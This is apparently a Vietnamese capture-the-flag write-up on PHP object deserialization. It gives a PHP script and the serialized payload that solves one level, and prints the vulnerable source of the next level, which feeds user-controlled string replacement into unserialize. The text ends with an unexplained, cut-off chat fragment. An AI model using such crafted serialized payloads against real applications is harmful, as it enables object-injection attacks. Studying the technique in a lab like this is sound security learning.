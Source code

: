 Ta chú ý vào điều kiện để lấy được flag `$a instanceof A && $a->helloctfcmd == "get_flag"`:
- Đầu tiên, biến `$a` sau khi unserialize phải là 1 instance của A, sau khi đọc doc một chút thì mình hiểu khi này `$a` phải là 1 object của class A
- Giá trị property `helloctfcmd` của $a khi này phải là `get_flag`

Thật sự thì đoạn trên gồm class B và một đống echo mình chưa hiểu tác dụng là gì lắm =)) nhưng có vẻ nó k có ý nghĩa trong việc lấy được flag của bài này 

Vậy nên code solve đơn giản của bài này là 

```php
<?php

class A {
    public $helloctfcmd;
}

$data = new A("");
$data->helloctfcmd = "get_flag";
echo serialize($data);
// O:1:"A":1:{s:11:"helloctfcmd";s:8:"get_flag";}
```

![image]({{ "/assets/img/2025-07-25-PHPDeserChall/image10.png" | relative_url }})

#### Level 18

```php
highlight_file('source');

class Demo {
    public $a = "Hello";
    public $b = "CTF";
    public $key = 'GET_FLAG";}FAKE_FLAG';
}

class FLAG {

}

$serliseStringDemo = serialize(new Demo());
echo "SerliseStringDemo:'".$serliseStringDemo."'<br>";

echo "Change SOMETHING TO GET FLAG";

$target = $_GET['target'];
$change = $_GET['change'];

$serliseStringFLAG = str_replace($target, $change, $serliseStringDemo);

$FLAG = unserialize($serliseStringFLAG);

if ($FLAG instanceof FLAG && $FLAG->key == 'GET_FLAG') {
    include 'flag.php';
    echo $flag;
} else {
    echo "Your serliaze string is ".$serliseStringFLAG . "<br> And Here is ";
    var_dump($FLAG);
}
```


[YOU]: HelloBooooooy
[FRIEND]: Hm.. you don't see to be the friend I was waiting for..
[FRIEND]: Oh ! Hi! Let me show you my secret: 